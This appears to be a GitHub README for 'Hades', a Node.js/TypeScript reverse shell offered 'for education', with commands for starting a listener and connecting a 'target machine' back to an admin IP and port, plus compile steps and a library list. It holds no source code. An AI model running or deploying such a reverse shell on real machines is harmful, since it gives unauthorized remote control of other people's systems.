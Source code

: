 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
### Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

### Use with Node.js
1) Run `npm install`
2) Run `node src/main.js -a [port to listen on]` on the main machine.
3) Run `node src/main.js -c [admin's ip] [admin's port]` on a target machine.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's ip] [admin's port]` on a target machine.

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
3) Install [Nexe](https://github.com/nexe/nexe).
4) Run `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
5) Change `linux-x64` with the os you are using following by the [architecture](https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.) of your CPU.

Note that the program is already compiled in the `bin` directory, and LTS versions can be found in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `Body-parser` - Used to parse responses.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.